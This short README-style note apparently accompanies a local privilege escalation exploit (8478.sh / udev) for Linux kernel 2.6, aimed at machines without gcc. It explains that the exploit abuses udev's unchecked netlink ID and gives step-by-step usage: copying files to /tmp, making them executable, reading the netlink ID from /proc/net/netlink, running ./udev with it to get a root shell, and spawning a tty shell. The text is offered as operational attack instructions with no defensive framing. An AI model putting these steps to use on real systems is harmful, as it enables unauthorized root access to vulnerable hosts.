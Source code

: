this directory is useful when gcc is not present in the machine 
8478.sh is used for privilege escalation in linux kernel 2.6
it works by exploiting UDEV. the netlink id passed udev is not checked properly which can be exploited.

copy the files to /tmp
chmod 755 *
cat /proc/net/netlink
get the netlink id with value ffffffff
./udev netlink_value

You will get a root shell. spin up a tty shell